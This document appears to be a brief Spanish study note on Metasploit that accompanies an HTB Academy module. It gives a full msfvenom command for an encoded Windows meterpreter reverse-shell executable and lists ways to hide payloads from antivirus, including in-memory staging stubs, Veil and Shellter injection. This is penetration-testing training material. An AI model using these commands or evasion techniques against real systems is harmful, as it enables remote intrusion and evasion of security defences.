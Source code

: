 # Metasploit tricks

## Encode payloads

#### Para listar encoders: `msfvenom -l encoders`

#### Para generar un payload encodeado
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o payload.exe`

### Ofuscaciones extras (A investigar)
- Modifica manualmente el payload: Cambia pequeñas partes del código para evitar patrones detectables.
- Compila un stub personalizado: Escribe un programa en C/C++ o Python que desempaquete y ejecute el payload en memoria (técnica de staging).
- Usa herramientas externas:
- Veil Framework: Genera payloads ofuscados.
- Obfuscator.io: Ofusca binarios.
- Shellter: Inyecta payloads dinámicos en ejecutables legítimos.

### Más información en el sitio de [HTB Academy](https://academy.hackthebox.com/module/39/section/416)
